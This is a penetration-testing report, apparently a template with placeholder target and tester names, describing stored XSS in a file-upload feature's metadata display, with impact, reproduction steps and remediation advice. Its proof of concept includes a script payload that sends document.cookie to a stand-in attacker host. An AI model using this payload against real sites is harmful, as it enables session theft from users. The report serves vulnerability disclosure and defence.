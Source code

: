 # Penetration Testing Writeup: XSS in File Upload

## Executive Summary

A Stored Cross-Site Scripting (XSS) vulnerability was found in [Target
Application]’s file upload feature, allowing attackers to embed scripts in
uploaded file metadata. This report details the vulnerability and remediation
steps.

## Vulnerability Details

- **Vulnerability Type**: Cross-Site Scripting (XSS) - Stored
- **Severity**: Critical
- **Affected Component**: File upload metadata display
- **CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
- **Location**: `https://[target-application]/files`
- **Discovered By**: [PenTester Name]
- **Date Discovered**: August 30, 2025

### Description

The file upload feature does not sanitize metadata (e.g., file descriptions)
before storing and displaying them, allowing script execution.

### Impact

- **Session Theft**: Cookies can be stolen.
- **Phishing**: Fake forms can capture credentials.
- **Data Leakage**: File metadata can be exfiltrated.
- **Defacement**: Page content can be altered.

### Proof of Concept

1. Upload a file with description: `<script>alert('Stored XSS');</script>`.
2. View the file list and observe the alert.
3. Malicious payload:
   `<script>fetch('https://attacker.com/steal?cookie='+document.cookie);</script>`.

### Steps to Reproduce

1. Navigate to `https://[target-application]/files`.
2. Upload a file with description `<script>alert('Stored XSS');</script>`.
3. View the file list to confirm the alert.

## Remediation Recommendations

1. **Input Sanitization**:
   - Sanitize file metadata using OWASP AntiSamy.
2. **Output Encoding**:
   - Encode metadata before rendering.
3. **Content Security Policy**:
   - Use CSP: `Content-Security-Policy: script-src 'self';`.
4. **Secure Coding**:
   - Train developers on XSS prevention.
5. **Security Testing**:
   - Conduct regular audits.

## Conclusion

The Stored XSS vulnerability in [Target Application]’s file upload feature
requires urgent remediation.

## References

- OWASP XSS Prevention Cheat Sheet:
  https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- CWE-79: https://cwe.mitre.org/data/definitions/79.html

![File XSS Example](https://example.com/images/file-xss-example.png)
